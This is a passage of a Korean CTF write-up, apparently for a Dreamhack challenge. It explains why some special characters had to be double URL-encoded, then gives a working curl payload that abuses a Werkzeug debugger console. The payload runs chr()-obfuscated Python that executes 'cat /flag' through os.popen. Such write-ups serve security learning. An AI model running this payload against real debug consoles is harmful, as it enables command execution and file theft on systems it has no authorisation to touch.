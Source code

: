 여기서 진행했던 내용은 특수문자에 대해서 `host3.dreamhack.games` URL에서 1차적으로 특수문자 디코딩이 진행되는데 이후에 `curl`에서 한번 더 진행되기에 기존 문자를 통해 정상적으로 전달이 되지 않았던 것이었다.

따라서 사용한 일부 특수문자는 Double Encoding하여 삽입한 결과 정상적으로 작동하여 FLAG를 확인할 수 있었다.

마지막 코드는 약간의 난독화 느낌으로 되어 있지만 단순하기에 금방 이해가 가능하다.

```
curl -G -b "__wzd1269d62cc39251a92215=1702019287|8d0c77c4160d" -d "__debugger__=yes&cmd=o=[chr(111),chr(115)];p=[chr(112),chr(111),chr(112),chr(101),chr(110)];l=[chr(99),chr(97),chr(116),chr(32),chr(47),chr(102),chr(108),chr(97),chr(103)];print(getattr(__import__(%2522%2522.join(o)),%2522%2522.join(p))(%2522%2522.join(l)).read())&frm=139805351218192&s=PU1SKs7zR9IOYtG3qy3k" http://127.0.0.1:8000/keygen/1
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/1e9fac13-166c-498d-8dc4-58b6deb96756" width = 850>
</p>

* **참고** : [me2nuk](https://me2nuk.com/SSTI-Vulnerability/)
